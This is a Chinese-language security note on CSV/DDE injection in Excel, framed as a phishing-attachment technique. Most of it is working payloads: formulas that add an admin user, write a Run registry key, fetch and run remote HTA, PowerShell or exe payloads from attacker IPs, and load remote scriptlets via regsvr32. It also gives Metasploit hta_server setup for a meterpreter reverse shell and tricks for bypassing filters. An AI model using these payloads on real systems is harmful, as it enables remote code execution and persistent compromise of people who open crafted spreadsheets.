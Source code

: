 ```yaml
---
date: 2025-10-09
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - Office
  - CSV
excerpt: CSV(Comma-Separated Values) 是一种用来存储数据的纯文本格式文件。
---
```


# CSV

> [office-exploits/injections at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/injections)
>
> [CSV注入详解 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12272?time__1311=mqmhD5YIoXqBqDudxUOxAEtKUq0INx&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-0)

---

## CSV简介

CSV(Comma-Separated Values) 是一种用来存储数据的纯文本格式文件。

CSV文件由任意数目的记录组成，记录间以指定符号(最常见的是逗号,也有用分号,制表符,`|`,空格等分隔的)分隔

例如:

![image-20240710094603740](http://cdn.ayusummer233.top/DailyNotes/202407100946680.png)

---

## CSV注入原理

CSV 注入是一种将包含恶意命令的excel公式插入到可以导出csv或xls等格式的文本中，当在excel中打开csv文件时，文件会转换为excel格式并提供excel公式的执行功能，会造成命令执行问题。

Excel 有一个特性：单元格中的第一个字符是 `+、-、@、=` 这样的符号时，他会以一个表达式的形式被处理

![image-20240710094847973](http://cdn.ayusummer233.top/DailyNotes/202407100948082.png)

不过除了公式之外, `=` 也可以用于执行代码, 这需要涉及到一个概念: [DDE](../DDE/index.md)

动态数据交换（DDE），是Windows下进程间通信协议，支持Microsoft Excel，LibreOffice和Apache OpenOffice。

Excel、Word、RTF、Outlook都可以使用这种机制，根据外部应用的处理结果来更新内容。因此，如果我们制作包含DDE公式的CSV文件，那么在打开该文件时，Excel就会尝试执行外部应用。

---

由于涉及到调用外部应用,加载外部数据, 对于新版本 Office 而言需要在 `文件-选项-信任中心-信任中心设置-外部内容-动态数据交换的安全设置` 中启用 `动态数据交换服务器查找` 和 `动态数据交换服务器启动`

![image-20240710110237136](http://cdn.ayusummer233.top/DailyNotes/202407101102187.png)

---

## 弹计算器

例如

```
=1+cmd|'/C calc'!A0
```

![image-20240710101319768](http://cdn.ayusummer233.top/DailyNotes/202407101014821.png)

![image-20240710101407766](http://cdn.ayusummer233.top/DailyNotes/202407101014623.png)

---

## OS命令执行

可以利用上述方式执行系统命令, 例如

- 打开任意应用程序

  例如打开浏览器访问指定站点

  ```
  =1+cmd|'/C "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" http://100.1.1.131:8090/a'!A0
  ```

- 反弹Shell

- 添加用户

  ```
  =cmd|'/C net user test 123456 /add'!A0+<br>=cmd|'/C net user test 123456 /add && net localgroup administrators test /add'!A0
  ```

- 修改注册表

  ```
  =cmd|'/C reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v calc /t REG_SZ /d c:\windows\system32\calc.exe /f'!A0
  ```

---

## cmd+mshta+msf 反弹Shell

> TODO

`msf`:

```bash
msfconsole
use exploit/windows/misc/hta_server
# 设置srvhost和srvport绑定一个web服务让目标访问
msf exploit(windows/misc/hta_server) > set srvhost 100.1.1.131
# 使用的攻击载荷
set payload windows/x64/meterpreter/reverse_tcp  
#默认是x86的,选择x64
set target 1
# 绑定攻击机IP
set lhost 100.1.1.131
# 启动脚本
run
```

新建csv, 插入如下命令并保存文件

```
=1+cmd|'/C mshta http://100.1.1.102:8080/3Mw1oRtpuxJp.hta'!A0
```

用 Excel 重新打开该 CSV即可上线 msf

---

## PowerShell 上线 CobaltStrike

```
=1+cmd|'/C "powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(\"http://100.1.1.131:8051/b\"))"'!A0
```

---

## CMD + Curl 下载与执行可执行文件

```
=cmd|'/C "curl http://100.1.1.131:8888/artifact_x64.exe --output shell.exe && .\shell.exe"'!A0
```

---

## 超链接钓鱼链接

```
=HYPERLINK("http://10.182.234.102:8090/a","点我百度”")
```

---

## 注册加载远程sct

> [office-exploits/injections at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/injections)

```csv
fillerText1,fillerText2,fillerText3,=MSEXCEL|'\..\..\..\Windows\System32\regsvr32 /s /n /u /i:http://192.168.154.200/cmd.sct scrobj.dll'!''
```

---

## 加载 scriptlet

> [office-exploits/injections at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/injections)

```
=Package|'scRiPt:http://XXXX/XXXX.xml'!""
```

---

## 绕过技巧

> [CSV注入详解 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12272?time__1311=mqmhD5YIoXqBqDudxUOxAEtKUq0INx&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-0)

---

### 静态

可以通过运算符`+-`的方式绕过对于 `=` 的检测

```
-1+1+cmd |’ /C calc’ !A0
```

参数处输入以下 Payload，`%0A`被解析，从而后面的数据跳转到下一行：

```
%0A-1+1+cmd|' /C calc'!A0
```

导出文件为 csv 时，若系统在等号`=`前加了引号`’`过滤，则可以使用分号绕过，分号`；`可分离前后两部分内容使其分别执行：

```
;-3+3+cmd|' /C calc'!D2
```

其他常用 Payload：

```
@SUM(cmd|'/c calc'!A0)
=HYPERLINK("https://attact.com")
```

---




































